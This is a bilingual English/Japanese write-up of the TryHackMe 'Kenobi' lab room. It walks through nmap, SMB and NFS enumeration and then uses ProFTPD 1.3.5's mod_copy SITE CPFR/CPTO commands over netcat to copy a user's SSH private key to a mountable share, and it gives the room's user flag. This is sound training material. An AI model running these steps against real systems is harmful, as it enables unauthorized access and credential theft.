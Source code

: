 //////////////////////////////
// Settings
//////////////////////////////
:toc: macro
:toc-title: 目次
:toclevels: 4
:sectnums:
:sectanchors:
:sectlinks:

//////////////////////////////
// Contents
//////////////////////////////
= TryHackMe Kenobi solution

toc::[]

== 準備

OpenVPNでTryHackMeとの間にVPNを張っておく

----
PS C:\Users\USER>docker cp <THM-UNAME>.ovpn <C-ID>:/etc/openvpn/<THM-UNAME>.ovpn
PS C:\Users\USER>docker exec -it <C-NAME> /bin/bash
mkdir -p /dev/net
mknod /dev/net/tun c 10 200
openvpn /etc/openvpn/<THM-UNAME>.ovpn &
----

== [Task 1] Deploy the vulnerable machine

=== #1

==== T1_#1:En

Make sure you're connected to our network and deploy the machine

==== T1_#1:Ja

ネットワークに接続していることを確認し、マシンをデプロイしなさい

==== T1_#1:Solution

「Deploy」ボタンを押下

==== T1_#1:Answer

\-

=== #2

==== T1_#2:En

Scan the machine with nmap, how many ports are open?

==== T1_#2:Ja

nmapでマシンをスキャンしたら、openなポートはいくつありましたか？

==== T1_#2:Solution

[bash]
----
# nmap -T5 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 19:30 UTC
Nmap scan report for 10.10.204.92
Host is up (0.11s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
----

==== T1_#2:Answer

7

'''

== [Task 2] Enumerating Samba for shares

=== #1

==== T2_#1:En

Using nmap we can enumerate a machine for SMB shares. +
Nmap has the ability to run to automate a wide variety of networking tasks. +
There is a script to enumerate shares! ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP``` +
SMB has two ports, 445 and 139. +
Using the nmap command above, how many shares have been found?

==== T2_#1:Ja

nmapを使用すると、SMB共有用のマシンを列挙できます。 +
Nmapは、様々なネットワーキングタスクを自動実行する機能を備えています。 +
共有ディレクトリを列挙するスクリプトがあります！ ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP``` +
SMBには、445と139の2つのポートがあります。

++++
<p align="left">
  <img width="572" height="252" src="https://i.imgur.com/bkgVNy3.png">
</p>
++++

上記のnmapコマンドを使用して、いくつの共有ディレクトリが見つかりましたか？

==== T2_#1:Solution

[bash]
----
# 「-p 445」があるとSTATEがfilteredになって結果が得られない。「=」や「.nse」は無くてもOK
# nmap -T5 --script smb-enum-shares,smb-enum-users 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 20:00 UTC
Nmap scan report for 10.10.204.92
Host is up (0.087s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.204.92\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.204.92\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.204.92\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
|_smb-enum-users: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 48.06 seconds
----

==== T2_#1:Answer

3

=== #2

==== T2_#2:En

On most distributions of Linux smbclient is already installed. Lets inspect one of the shares. +
"smbclient //<ip>/anonymous" Using your machine, connect to the machines network share. +
Once you're connected, list the files on the share. What is the file can you see ?

==== T2_#2:Ja

殆どのLinuxディストリビューションにインストールされているsmbclientコマンドで共有フォルダを検査してみよう。 +
マシンを使用して、「smbclient //<ip>/anonymous」を打ち、マシンのネットワーク共有フォルダに接続します。 +
その後、shareディレクトリのファイルを一覧表示した時、見つかるファイルは何ですか？

==== T2_#2:Solution

[bash]
----
# smbclient //10.10.204.92/anonymous
Enter WORKGROUP\GUEST's password: [PWは空打ち]
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 10:49:09 2019
  ..                                  D        0  Wed Sep  4 10:56:07 2019
  log.txt                             N    12237  Wed Sep  4 10:49:09 2019

                9204224 blocks of size 1024. 6877092 blocks available
----

==== T2_#2:Answer

log.txt

=== #3

==== T2_#3:En

You can recursively download the SMB share too. Submit the username and password as nothing. +
"smbget -R smb://<ip>/anonymous" Open the file on the share. +
There is a few interesting things found. 

* Information generated for Kenobi when generating an SSH key for the user.
* Information about the ProFTPD server.

What port is FTP running on?

==== T2_#3:Ja

下記コマンドを実行し、ユーザ名とPWを空で送信することで、SMB共有フォルダを再帰的にダウンロードできます。 +
 「smbget -R smb://<ip>/anonymous」で共有上のファイルを開きます。 +
 いくつかの興味深いものが見つかりました。

* ユーザのSSHキー生成時のKenobi用に生成された情報
* ProFTPDサーバーに関する情報

FTPはどのポートで実行されていますか？

==== T2_#3:Solution

[bash]
----
# smbget -R smb://10.10.204.92/anonymous
Password for [guest] connecting to //anonymous/10.10.204.92:
Using workgroup WORKGROUP, user guest
smb://10.10.204.92/anonymous/log.txt
Downloaded 11.95kB in 8 seconds
# ls
log.txt
# cat log.txt
Generating public/private rsa key pair.
～省略～
# This is a basic ProFTPD configuration file (rename it to
# 'proftpd.conf' for actual use.  It establishes a single server
# and a single anonymous login.  It assumes that you have a user/group
# "nobody" and "ftp" for normal operation and anon.

ServerName                      "ProFTPD Default Installation"
ServerType                      standalone
DefaultServer                   on

# Port 21 is the standard FTP port.
Port                            21
～省略～
----

==== T2_#3:Answer

21

=== #4

==== T2_#4:En

Your earlier nmap port scan will have shown port 111 running the service rpcbind.  +
This is just an server that converts remote procedure call (RPC) program number into universal addresses. +
When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. +
In our case, port 111 is access to a network file system. +
Lets use nmap to enumerate this. "nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP" What mount can we see?

==== T2_#4:Ja

以前のnmapポートスキャンでポート111がrpcbindサービスを実行していると分かった。 +
これは、Remote Procedure Call(RPC)プログラム番号をユニバーサルアドレスに変換するサーバーにすぎません。 +
RPCサービスが開始されると、当該サービスはrpcbindへ、lisstenしているアドレスと、それらを提供する準備ができているRPCプログラム番号を通知する。 +
この場合、ポート111はネットワークファイルシステムへのアクセスです。 +
「nmap -p 111 --script = nfs-ls、nfs-statfs、nfs-showmount MACHINE_IP」でこれを列挙してみよう。 +
どのマウントが見えますか？

==== T2_#4:Solution

[bash]
----
# 「-p 111」があるとSTATEがfilteredになって結果が得られない
# nmap -T5 --script nfs-ls,nfs-statfs,nfs-showmount 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 20:32 UTC
Nmap scan report for 10.10.204.92
Host is up (0.093s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
| nfs-showmount:
|_  /var *
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
----

==== T2_#4:Answer

/var

'''

== [Task 3] Gain initial access with ProFtpd

=== #1

==== T3_#1:En

Lets get the version of ProFtpd. +
Use netcat to connect to the machine on the FTP port. What is the version?

==== T3_#1:Ja

ProFtpdのバージョンを取得できます。 +
netcatを使用してFTPポートでマシンに接続します。バージョンは何か？

==== T3_#1:Solution

----
# nmap -T5 -sC -sV 10.10.203.16
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-26 02:46 UTC
Nmap scan report for 10.10.203.16
Host is up (0.10s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      36914/udp6  mountd
|   100005  1,2,3      48461/tcp   mountd
|   100005  1,2,3      58861/udp   mountd
|   100005  1,2,3      60987/tcp6  mountd
|   100021  1,3,4      39997/udp   nlockmgr
|   100021  1,3,4      41018/udp6  nlockmgr
|   100021  1,3,4      43915/tcp6  nlockmgr
|   100021  1,3,4      45819/tcp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: -1s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2020-07-25T21:46:44-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-26T02:46:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.90 seconds
----

==== T3_#1:Answer

1.3.5

=== #2

==== T3_#2:En

We can use searchsploit to find exploits for a particular software version. +
Searchsploit is basically just a command line search tool for exploit-db.com. +
How many exploits are there for the ProFTPd running?

==== T3-#2:Ja

searchsploitで特定のソフトウェアバージョンのエクスプロイトを見つけられます。 +
searchsploitは基本的に、exploit-db.comのコマンドライン検索ツールです。 +
ProFTPdを実行するためのエクスプロイトはいくつあるか？

==== T3_#2:Solution

----
# searchsploit ProFTPd 1.3.5
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                               | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                     | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                               | linux/remote/36742.txt
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
----

==== T3_#2:Answer

3

=== #3

==== T3_#3:En

You should have found an exploit from ProFtpd's mod_copy module. +
The mod_copy module implements SITE CPFR and SITE CPTO commands,  +
which can be used to copy files/directories from one place to another on the server. +
Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination. +
We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

==== T3_#3:Ja

ProFtpdのmod_copyモジュールからエクスプロイトを見つけたはずです。 +
mod_copyモジュールは、SITE CPFRおよびSITE CPTOコマンドを実装しており、+
サーバー上のある場所から別の場所にファイル/ディレクトリをコピーするために使用できます。 +
認証されていないクライアントは、これらのコマンドを利用して、ファイルシステムの任意の部分から選択した宛先にファイルをコピーできる。 +
FTPサービスがKenobiユーザーとして（共有上のファイルから）実行されており、そのユーザーのSSH鍵が生成されていることが分かっている。

==== T3_#3:Solution

-

==== T3_#3:Answer

-

=== #4

==== T3_#4:En

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.
We knew that the "/var" directory was a mount we could see (task 2, question 4). +
So we've now moved Kenobi's private key to the "/var/tmp" directory.

==== T3_#4:Ja

次に、SITE CPFRおよびSITE CPTOコマンドを使用して、Kenobiの秘密鍵をコピーします。

++++
<p align="left">
  <img width="602" height="94" src="https://i.imgur.com/LajBhh2.png">
</p>
++++

「/var」ディレクトリが目に見えるマウントであることがわかっていました（T2_#4）。 +
そこで、Kenobiの秘密鍵を「/var/tmp」ディレクトリに移動しました。

==== T3_#4:Solution

----
# nc 10.10.203.16 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.203.16]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
----

==== T3_#4:Answer

-

=== #5

==== T3_#5:En

Lets mount the /var/tmp directory to our machine 

----
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
----

We now have a network mount on our deployed machine! +
We can go to "/var/tmp" and get the private key then login to Kenobi's account. +
What is Kenobi's user flag (/home/kenobi/user.txt)?

==== T3_#5:Ja

/var/tmpディレクトリをマシンにマウントしましょう

----
mkdir /mnt/kenobiNFS
mount 10.10.203.16:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
----

++++
<p align="left">
  <img width="567" height="346" src="https://i.imgur.com/v8Ln4fu.png">
</p>
++++

以上より、展開したマシンにNWマウントできました。 +
「/var/tmp」に移動して秘密鍵を取得し、Kenobiのアカウントにログインします。 +

++++
<p align="left">
  <img width="493" height="44" src="https://i.imgur.com/Vy4KkEl.png">
</p>
++++

Kenobiのユーザーフラグ（/home/kenobi/user.txt）とは何ですか？

==== T3_#5:Solution

-

==== T3_#5:Answer

d0b0f3f53b6caa532a83915e19224899
